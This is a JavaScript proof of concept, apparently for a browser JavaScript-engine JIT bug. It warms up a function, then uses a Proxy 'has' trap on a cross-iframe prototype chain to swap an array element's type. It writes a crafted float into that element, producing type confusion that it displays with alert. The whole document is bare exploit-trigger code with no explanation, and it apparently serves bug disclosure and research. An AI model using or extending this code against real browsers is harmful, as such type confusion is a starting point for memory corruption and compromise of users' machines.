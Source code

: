 
function opt(arr, arr2) {
    arr[1] = 1.1;

    let tmp = 0 in arr2;

    arr[0] = 2.3023e-320;

    return tmp;
}

function main() {
    let o = document.body.appendChild(document.createElement('iframe')).contentWindow;

    
    o.eval(`
let p = new Proxy({}, {});
let a = {__proto__: {}};
a.__proto__.__proto__ = p;
`);

    let arr = [1.1, 2.2];
    let arr2 = [1.1, 2.2];

    let proto = new o.Object();
    let handler = {};

    arr2.__proto__ = proto;
    proto.__proto__ = new Proxy({}, {
        has() {
            arr[0] = {};

            return true;
        }
    });

    for (let i = 0; i < 10000; i++) {
        opt(arr, arr2);
    }

    setTimeout(() => {
        delete arr2[0];

        opt(arr, arr2);

        alert(arr[0]);
    }, 500);
}

main();

